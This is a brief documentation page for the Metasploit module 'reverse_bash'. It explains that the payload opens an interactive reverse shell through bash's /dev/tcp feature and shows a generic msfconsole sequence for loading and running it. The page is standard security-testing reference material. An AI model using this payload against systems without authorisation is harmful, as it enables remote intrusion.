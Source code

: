 ## Unix Command Shell, Reverse TCP (/dev/tcp)

Creates an interactive shell via bash's builtin /dev/tcp. 
This will not work on most Debian-based Linux distributions 
(including Ubuntu) because they compile bash without the 
/dev/tcp feature.


## Module Name
payload/cmd/unix/reverse_bash

## Authors
hdm





## Platforms
unix

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/cmd/unix/reverse_bash
msf payload(reverse_bash) > show targets
   ... a list of targets ...
msf payload(reverse_bash) > set TARGET <target-id>
msf payload(reverse_bash) > show options
   ... show and set options ...
msf payload(reverse_bash) > run
```
    
    